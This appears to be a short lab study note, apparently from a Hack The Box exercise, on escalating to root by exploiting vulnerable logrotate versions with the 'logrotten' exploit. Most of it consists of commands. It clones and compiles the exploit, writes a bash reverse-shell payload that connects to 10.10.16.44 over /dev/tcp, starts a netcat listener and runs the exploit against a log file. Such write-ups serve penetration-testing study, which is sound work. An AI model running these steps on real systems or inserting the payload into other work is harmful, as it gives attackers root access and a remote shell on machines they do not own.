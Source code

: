 To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0
```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```
payload
```shell-session
echo 'bash -i >& /dev/tcp/10.10.16.44/9001 0>&1' > payload
```

determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
In our case, it is the option: `create`. Therefore we have to use the exploit adapted to this function.
```shell-session
tb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```
As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

# force log to rotate
```shell-session
./logrotten -p ./payload /tmp/tmp.log
```
![[Pasted image 20250711125537.png]]
```
htb-student@ubuntu:~$ cp backups/access.log.1 backups/access.log; ./logrotten -p payload  backups/access.log -c ; ls -l /etc/bash_completion.d/

```